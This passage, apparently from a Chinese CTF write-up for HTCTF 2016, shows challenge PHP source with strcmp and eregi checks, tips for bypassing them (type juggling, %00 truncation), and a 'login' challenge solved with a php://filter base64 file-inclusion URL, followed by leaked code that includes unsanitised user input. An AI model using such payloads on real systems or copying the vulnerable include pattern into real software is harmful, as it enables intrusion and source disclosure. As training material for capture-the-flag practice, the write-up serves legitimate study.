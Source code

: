     }
}
<span class="hljs-variable">$c</span>=@<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'cat'</span>];
<span class="hljs-variable">$d</span>=@<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'dog'</span>];
<span class="hljs-keyword">if</span>(@<span class="hljs-variable">$c</span>[<span class="hljs-number">1</span>]){
    <span class="hljs-keyword">if</span>(!strcmp(<span class="hljs-variable">$c</span>[<span class="hljs-number">1</span>],<span class="hljs-variable">$d</span>) &amp;&amp; <span class="hljs-variable">$c</span>[<span class="hljs-number">1</span>]!==<span class="hljs-variable">$d</span>){
        eregi(<span class="hljs-string">"3|1|c"</span>,<span class="hljs-variable">$d</span>.<span class="hljs-variable">$c</span>[<span class="hljs-number">0</span>])?<span class="hljs-keyword">die</span>(<span class="hljs-string">"nope"</span>):<span class="hljs-keyword">NULL</span>;
        strpos((<span class="hljs-variable">$c</span>[<span class="hljs-number">0</span>].<span class="hljs-variable">$d</span>), <span class="hljs-string">"htctf2016"</span>)?<span class="hljs-variable">$v3</span>=<span class="hljs-number">1</span>:<span class="hljs-keyword">NULL</span>;
    }
}
<span class="hljs-keyword">if</span>(<span class="hljs-variable">$v1</span> &amp;&amp; <span class="hljs-variable">$v2</span> &amp;&amp; <span class="hljs-variable">$v3</span>){
    <span class="hljs-keyword">include</span> <span class="hljs-string">"flag.php"</span>;
    <span class="hljs-keyword">echo</span> <span class="hljs-variable">$flag</span>;
}
<span class="hljs-preprocessor">?&gt;</span></span></code></pre>
<p>这个好像是去年的题目，做了好几次，说点不一样的 <br>
1. 记住一点字符串与数字比较时会先转换成数字再比较 <br>
2. 还有一点<code>$pos = array_search("nudt", $a["a2"]);</code>这个在绕过的时候也是利用上面的那一点，所以有0就可以了 <br>
3. eregi的%00截断</br></br></br></p>
<h2 id="0x5-login">0x5 login</h2>
<p><a href="http://218.76.35.75:20115">链接</a> <br>
打开一看典型的文件包含，利用PHP协议读取所有源码 <br>
利用方法<code>http://218.76.35.75:20115/?page=php://filter/read=convert.base64-encode/resource=main</code></br></br></p>
<p>index.php</p>
<pre class="prettyprint"><code class=" hljs xml"><span class="php"><span class="hljs-preprocessor">&lt;?php</span>
<span class="hljs-variable">$pwhash</span>=<span class="hljs-string">"ffd313052dab00927cb61064a392f30ee454e70f"</span>;

<span class="hljs-keyword">if</span> (@<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'log'</span>]) {
    <span class="hljs-keyword">if</span>(file_exists(<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'log'</span>].<span class="hljs-string">".log"</span>)){
        <span class="hljs-keyword">include</span>(<span class="hljs-string">"flag.txt"</span>);
}
}
<span class="hljs-keyword">if</span>(@<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'page'</span>] != <span class="hljs-string">'index'</span>){
    <span class="hljs-keyword">include</span>((@<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'page'</span>]?<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'page'</span>].<span class="hljs-string">".php"</span>:<span class="hljs-string">"main.php"</span>));
}
